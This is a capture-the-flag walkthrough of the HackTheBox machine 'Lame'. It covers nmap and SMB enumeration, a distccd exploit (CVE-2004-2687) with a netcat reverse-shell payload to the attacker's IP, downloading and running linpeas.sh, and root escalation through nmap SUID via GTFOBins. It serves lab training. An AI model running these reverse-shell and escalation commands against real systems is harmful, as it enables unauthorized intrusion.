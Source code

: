 # Lame - 10.10.10.3
### Don't forget to check out the Lame.pdf file. To see it in color :)

![Lame_info_card](https://user-images.githubusercontent.com/110210595/187806371-c87c74bd-6111-458a-8cd7-62a899083d09.png)

Started off with a nmap scan `nmap -Pn -T5 -sV -sC -A -p- -oN lame_nmap.txt 10.10.10.3`<br>
While that was scanning I went to go check out to see if the website is up. But I don't get anything back and you'll see why when the results are done.
We get back some nice info to start us off.
Port 80 isn't open so there was no site for me to check.<br>
But there was other ports open such as port 21 with the version number of <em><strong>vsftpd 2.3.4</em></strong> (This version of vsftpd is vulnerable to backdoor command executionCVE-2011-2523) I couldn't get it to work though. So I moved on. If you can't get something to work, don't spend to much time on it. Look at the next route you can take and if you get stuck.<br>
again then go back and try to repeat your steps to make sure you didn't make a typo somewhere.

![nmap_scan_pt1](https://user-images.githubusercontent.com/110210595/186279936-8afa6919-9add-4034-bbe4-2829a8d84580.png)

![nmap_scan_pt2](https://user-images.githubusercontent.com/110210595/186279953-2fb886f4-5574-4cb1-b27b-306826c0b9ca.png)

I see that smb is open. 139/445. I run `smbmap -H 10.10.10` and get back some users.

![smbmap_results](https://user-images.githubusercontent.com/110210595/185814007-319d68bc-004b-4242-b3e0-a943b4eda8e9.png)

we can see that tmp is <em><strong>READ, WRITE</em></strong>. Lets login and see what we can find.<br>
I use `smbclient \\\\10.10.10.3\\tmp` and we get a hit.<br>
I use `ls` to see what we can find. Unfortunately there is nothing here either.<br>
We could use put and get files here but there is no port 80 open for us to execute the files to gain a shell from here. Some bad luck but we got more info so lets keep looking.

![smbclient\tmp_results](https://user-images.githubusercontent.com/110210595/186279990-d0c780e7-424c-43e0-b62f-eea7d5ccf836.png)

I go back to the nmap results and see port 3632 is open and it gave us the version of application running. <em><strong>distccd v1</em></strong><br>
I go to google and search for "<em><strong>distccd v1 exploit</em></strong>" first link brings us to https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855<br>
after reading the exploit it seems to generate a random alpha numeric string. Reads the string. And looks for the trigger exploit which is <em><strong>command, host, port</em></strong><br>
If it is able to connect to the host it will send the payload and hopefully give us a reverse shell.

Let's give it a try. I started by copying the code and writing it to a file naming it CVE-2004-2687.py, did  `chmod +x CVE-2004-2687.py`<br>
the file is ready to be used. First I started a listener on my attacking machine with `nc -lvnp 9001` and then used the following command<br>
`./CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh"` No good, got errors.<br>
Then I tried. `python3 CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh"` I got a connected to remote service Ok but then the
socket timed out instantly killing the connection. I went back to the exploit and read the comments, it mentioned that python3 is to new.
So I was going to work my way down from python3 to python.<br>
Next up,  `python2 CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh"` Success, we get a shell!

![proof_of_user_shell](https://user-images.githubusercontent.com/110210595/186280044-7ad463f8-0082-4d42-9e21-3e0b734cc0ed.png)

![COWABUNGA](https://user-images.githubusercontent.com/110210595/186280016-5a9d0378-3c30-4f95-89e0-c68eea7c86d1.png)

Let's upgrade the shell. I used the following.<br>
`python -c 'import pty; pty.spawn("/bin/bash")'` python3 and python2 didn't work.<br>
`export TERM=xterm `<br>
`stty raw -echo && fg`<br>
`enter`<br>
`enter`<br>

We're a normal user daemon. I started off with `sudo -l` but it asked for a password. Let's move on.
I look around a bit and `cd /home` directory and do a `ls` and see what's there. Nothing good in the user directory but I did go into makis and find the <em><strong>user.txt</em></strong> file. I use <em><strong>cat user.txt</em></strong> at it and we get out our first flag.

![user_txt](https://user-images.githubusercontent.com/110210595/186280050-4c2d9a7e-9b61-4b18-9d51-f14d3659c34f.png)

![Mikey_being_a_savage](https://user-images.githubusercontent.com/110210595/186280056-9b22e873-4987-4845-8417-ec2a8581c9ab.png)

Next, let's head over to the tmp directory and try to transfer over some enumeration files like linpeas.sh<br>
I go to my attacking machine on my transfers directory where I store all my enumeration files, scripts, images, anything that can be used to help us get an edge on the victim machine.<br>
I use `python3 -m http.server 80` to get the server up and running.<br>
On the victim machine ill be in the <em><strong>/tmp</em></strong> directory and use 'wget://10.10.14.10/linpeas.sh' which is my attacking machines ip from HackTheBox. 
The file gets transferred over no problem. I use `chmod +x linpeas.sh` making it an executable file.<br>
I use `./linpeas.sh` and it runs no problem. We get back a lot of results. Several vulnerabilities, but one in particular catches my eye with the yellow red highlight.

![exploit_suggester_results_pt-1](https://user-images.githubusercontent.com/110210595/186280090-9325ff31-2274-4c8b-a279-f6133ef3a11b.png)

![exploit_suggester_results_pt-2](https://user-images.githubusercontent.com/110210595/186280109-1ba8b1b6-6a8c-43ec-87f5-d5e0b7eac263.png)

![exploit_suggester_results_pt-3](https://user-images.githubusercontent.com/110210595/186280119-1ee8d359-4e1a-4a25-8040-728189330987.png)

<em><strong>/usr/bin/nmap suid</em></strong><br>
I head over to https://gtfobins.github.io/ and search for <em><strong>nmap</em></strong><br>
I 'cd /usr/bin' where the suid is located.<br>
I start off with shell code (a) and nothing happened. So I keep going down the list.<br>
Shell (b) worked!

![gtfo_bin_exploit](https://user-images.githubusercontent.com/110210595/186280127-2e9c0379-cf61-4a2b-960e-fdb45b73c42a.png)

we can now 'cd /root' and see what is there which is the <em><strong>root.txt</em></strong>flag!<br>
we have successfully rooted this box!

![root.txt](https://user-images.githubusercontent.com/110210595/186280195-f349b931-70e6-47ae-ba72-77eb1769c8f0.png)

![Shellshocked](https://user-images.githubusercontent.com/110210595/186280178-cb30a837-8e63-4c4c-9800-c85934cc0ded.png)
